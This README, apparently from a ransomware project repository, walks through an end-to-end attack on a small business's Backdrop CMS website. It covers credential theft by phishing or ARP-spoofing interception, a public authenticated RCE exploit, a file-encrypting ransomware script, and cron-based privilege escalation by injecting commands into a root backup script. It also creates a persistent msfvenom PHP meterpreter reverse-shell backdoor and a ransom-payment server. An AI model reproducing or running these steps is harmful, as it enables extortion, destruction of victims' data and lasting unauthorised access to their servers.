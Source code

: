 # RansomwarePamela

## CarDetailing Website Ransomware

### Story

Bob is a small business owner that specialises in car detailing. He has a simple website that allows customers to book their appointments and check information about the business. Because he is running on a small budget he didn't want to invest a lot of money in securing the website but rather have more functionality to serve the customers. Therefore, he hired a developer with the lowest bid he found on a website that offers different services. The website was developed using Backdrop, which is a free and Open Source Content Management System that helps you build modern, comprehensive websites on a reasonable budget. 

Alice a competitor of Bob wants to learn some information about his business model, clients and make some money out of it in the meantime. Therefore, she takes advantage of the vulnerability in Backdrop CMS 1.27.1 to install ransomware inside Bob's server.

#### Steps
This section entails the five steps to successfully achieve the goal of this project, including gaining admin access, run the exploit to import a malicious PHP module. Finally, install and run the ransomware on the target server.
  - Set up a website using Backdrop CMS 1.27.1, with a working database and basic functionality using Backdrop's installation guide here: https://docs.backdropcms.org/documentation/installation-instructions .
  -  Gain admin access to the website. This can be done with one of the following options, but we chose to go with the last one:
       - Brute force the credentials;
       - SQL Injection to bypass authentication;
       - Phishing : We could send him an email claiming that we are the person who was hired to develop the website. We will trick him using typosquatting in the email address and tell him that the website has a problem and he won't be able to serve his customers, so he needs to give us admin access to check it out.
       - Man in the middle attack: We trick the user into thinking he communicates directly with the server by spoofing the server's address and forwarding traffic. This way we intercept the login and steal their credentials.
- Use the exploit Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE) here: https://www.exploit-db.com/exploits/52021 . It allows an authenticated user (admin) to upload a malicious PHP module that can execute arbitrary commands on the underlying server. 
- We can modify the malicious module to create a reverse shell to install the malware on the target server. 
- The installed malware encrypts all files in Bob's server and demands a ransom in return for the decryption key.
     when the ransom pops up on the screen, also does the rotating Pamela Anderson pictures in the background 

The reason why we need the exploit even though we have admin privileges is because Backdrop CMS limits uploading files that suspects might be malicious even for admins. So the exploit tricks it into thinking that the file is legitimate.

## Encryption/Decryption and Backdoor access

How to run the encryption/ decryption with the shell file. 

./ransomware "mode" "traversing directory" "extentions" "key" "IV" 

- Mode: mode can be either encrypt or decrypt
- Traversing directory: This is the root directory you'd like the file to start searching in 
- Extentions: These are the extensions of the files you'd like to encrypt. Note that for multiple ones you have to put them with spaces in between. 
- Key: Is the key to encrypt and decrypt with 
- IV: Is the initial vector used in the AES algorithm.

Here you have an example for encryption and decryption. 
- Encryption: ./ransomware.sh "encrypt" "./target_directory" ".json .tsv .yaml" "00112233445566778899aabbccddeeff" "0102030405060708090a0b0c0d0e0f10" 
- Decryption: ./ransomware.sh "decrypt" "./target_directory" ".json .tsv .yaml" "00112233445566778899aabbccddeeff" "0102030405060708090a0b0c0d0e0f10"

Note, first run the encryption. 

How to do the privilege escalation using cron 
first we assume that the user ran these commands to have a frequent backup done: 
1. sudo crontab -e 
2. enter 1 
3. put the following line in the cronjob (this does the backup every 2 minutes)
    */2 * * * * cd "path to the directory" && ./backup.sh
   
Then as the attacker we run the following commands: 
1. In the same directory as the project run this: 
    echo "./ransomware.sh 'encrypt' './target_directory' '.json .tsv .yaml' '00112233445566778899aabbccddeeff' '0102030405060708090a0b0c0d0e0f10'" > input.sh
2. echo -e "chmod +x ransomware.sh \n chmod +x input.sh \n chmod +x backup.php \n ./input.sh \n rm input.sh" >> backup.sh


After the backup is done the script is also ran and the database is encrypted. 
We can further delete or encrypt the backup files as well.
If you want to stup the cron job run the command again and delete the added line.

To create the backdoor:
1. msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4444 > backup.php (LHOST should be the IP of the attacker and the port is some arbitrary unused one)
2. Open the corresponding msfconsole and access the file remotely for which no admin access is needed- that starts the web shell and exploits the backdoor


# Recreating the whole Ransomware Attack

To recreate the ransomware attack from end to end, follow these steps:

1. **Run the Webutler Web Server**  
   - Set up and run the Webutler web server on one machine.

2. **Network Spoofing**  
   - From the attacker's machine, connect to the network where the victim will log in.  
   - Spoof the address of the server and forward all traffic using tools like `arpspoof` and `mitmweb`.

3. **Intercept Login Request**  
   - Intercept the victim's login request and steal their credentials.

4. **Admin Access**  
   - Using the stolen credentials, log into the web server as an admin.

5. **Prepare Attack Files**  
   - Start a simple Python server on the attacker's machine at the location containing all files needed for the attack.

6. **Upload and Execute Attack Script**  
   - Upload a `.phar` file through the admin panel.  
   - The `.phar` file will automatically execute on the server, download the attack files, and update the backup script.  
   - At this point:
     - All database files on the server will be encrypted.
     - The webpage will display an updated ransom message.

7. **Setup Decryption Server**  
   - Configure a `server.php` file on the attacker's machine to manage the decryption key.  
   - This script will verify payment before sending the decryption key.

8. **Payment Verification**  
   - After the victim provides the payment reference, the attacker's server will verify it.  
   - Upon verification, the server will decrypt the files and delete all attack-related files except the `backup.php`.

9. **Backdoor Setup**  
   - The `backup.php` file will remain on the web server, creating a persistent backdoor.

10. **Backdoor Access**  
    - To utilize the backdoor, the attacker:
      - Starts an `msfconsole`.
      - Accesses the `backup.php` file on the server.
    - No admin access is needed as the file executes automatically, starting a reverse web shell.

Each time the backdoor is accessed, the attacker gains reverse shell access to the server.
!! Currently all the files are configured so that the attacker's IP address is 192.168.1.3 so make sure to update that accordingly, also in the backdoor file

